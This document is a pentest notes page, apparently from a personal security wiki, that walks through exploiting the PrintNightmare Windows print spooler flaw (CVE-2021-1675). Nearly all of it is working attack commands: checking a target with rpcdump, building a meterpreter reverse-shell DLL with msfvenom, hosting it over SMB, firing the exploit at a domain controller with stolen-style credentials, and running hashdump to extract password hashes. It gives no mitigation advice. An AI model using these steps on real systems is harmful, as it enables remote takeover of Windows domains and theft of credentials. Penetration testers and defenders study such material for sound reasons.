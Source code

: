 ```yaml
---
description: CVE-2021-1675
---
```


# ‼️ Abusing PrintNightmare

<figure><img src="../../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Github: [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.

To test if a machine is vulnerable to PrintNightmare, we can utilize the PoC methodology:

```
rpcdump.py @Domain_IP | egrep 'MS-RPRN|MS-PAR'
```

MS-RPRN and MS-PAR refer to Microsoft protocols used for managing printing operations in a Windows environment.

And if the output of this command is the following:

```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

The target is vulnerable to PrintNightmare :imp:

If we want to continue exploiting this vuln, this is the methodology:&#x20;

First, we need to install the correct version of impacket:

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

We then need to copy the raw code of the CVE python file and paste it in the CVE.py file we juste cloned:

```
gedit CVE-2021-1675.py
#then paste the raw code of this 
```

<figure><img src="../../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

So  basically for the following steps we are going to create a malicious DLL, host it and run it using the scripts provided by the repo:

```
Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
```

#### Methodology:

We first need to create our malicious DLL file with MsVenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=port_of_choice -f dll > shell.dll
```

Now we can just launch msfconsole and type in the following commands to set options:

```
set exploit multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```

<figure><img src="../../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Set LHOST and LPORT to your local machine and any unused port and run the _run_ command to activate listener

<figure><img src="../../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

Now we need to set up a file share and we are going to use smbserver.py from impacket:

```
smbserver.py share 'pwd' -smb2support
```

Now everything is up and we can run the command:

```
python3 CVE-2021-1675.py domain.contoso/username:Password@DC_IP '\\local_IP\share\shell.dll'
```

and normally if everything is good and no firewall blocking us we will have our shell on metasploit or any listener we set up

<figure><img src="../../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

and the rest is up to us with some fun commands like:

```
hashdump
```

